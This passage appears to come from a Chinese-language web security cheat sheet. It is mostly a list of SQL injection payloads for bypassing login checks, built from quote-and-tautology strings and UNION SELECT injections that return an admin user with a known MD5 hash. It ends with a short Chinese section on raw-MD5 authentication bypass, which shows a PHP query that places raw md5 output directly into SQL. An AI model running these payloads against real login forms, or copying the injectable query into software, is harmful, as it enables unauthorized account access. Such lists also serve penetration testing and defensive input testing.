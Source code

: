 ```sql
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## 认证绕过（原始MD5和SHA1）

当使用原始md5时，密码将作为简单字符串查询，而不是十六进制字符串。

```php
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
